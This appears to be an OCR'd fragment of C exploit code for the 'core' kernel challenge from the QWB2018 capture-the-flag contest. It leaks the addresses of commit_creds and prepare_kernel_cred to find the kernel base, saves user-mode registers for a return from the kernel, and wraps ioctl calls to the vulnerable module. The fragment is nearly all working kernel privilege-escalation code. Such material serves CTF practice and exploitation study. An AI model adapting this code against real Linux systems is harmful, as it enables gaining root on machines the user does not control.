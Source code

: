 ```C
			/*
			 * give_to_player [master●●] bpython
				bpython version 0.17.1 on top of Python 2.7.15 /usr/bin/n
				>>> from pwn import *
				>>> vmlinux = ELF("./vmlinux")
				[*] '/home/m4x/pwn_repo/QWB2018_core/give_to_player/vmli'
				    Arch:     amd64-64-little
				    RELRO:    No RELRO
				    Stack:    Canary found
				    NX:       NX disabled
				    PIE:      No PIE (0xffffffff81000000)
				    RWX:      Has RWX segments
				>>> hex(vmlinux.sym['commit_creds'] - 0xffffffff81000000)
				'0x9c8e0'
			*/
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p\n", vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			sscanf(hex, "%llx", &prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}

}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n", idx);
	ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd, 0x6677889B, buf);

}
```